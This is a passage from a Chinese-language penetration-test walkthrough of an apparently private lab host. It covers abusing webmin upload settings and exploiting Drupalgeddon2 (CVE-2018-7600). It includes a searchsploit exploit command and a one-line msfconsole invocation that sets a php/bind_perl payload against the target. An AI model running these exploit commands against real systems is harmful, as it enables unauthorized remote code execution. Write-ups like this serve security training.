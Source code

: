 [http://192.168.50.10/jabcd0cs](http://192.168.50.10/jabcd0cs)  
webmin账户登录，具管理员权限，可以在admin模块新增允许上传文件类型 `text/x-php`。在设置页面可以找到文件上传路径`/uploads`。  
此时已经可以上传php文件，但发现所上传的文件后缀会转换为dat格式。如果想利用shell文件，还需要找到一个本地文件包含漏洞，但是没找到。

[![](assets/1704158282-96ac096c529d30045c82a3a97bcb9e88.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010532-4f45850c-a5a3-1.png)

## （3）Drupal RCE （CVE-2018-7600）

1、在渗透过程中，细心就可以留意到响应包中存在字段 `Drupal 7`，则可以尝试在公开漏洞库进行查找，以可以直接利用的漏洞为切入点，进行筛选。

[![](assets/1704158282-df05f093b7ffbd3ca42ad4c12b7568b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010630-71e2b986-a5a3-1.png)

2、这里尝试了 `Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution`[相关利用参考](https://research.checkpoint.com/2018/uncovering-drupalgeddon-2/)

```plain
searchsploit Drupal -m 44449
#报错则 sudo gem install highline 
./44449.rb http://192.168.50.10/jabc/
```

3、或者使用msf的drupal\_drupalgeddon2模块

```plain
msfconsole -q -x 'use exploit/unix/webapp/drupal_drupalgeddon2;set rhosts 192.168.50.10;set targeturi /jabc;set payload php/bind_perl;run'
```
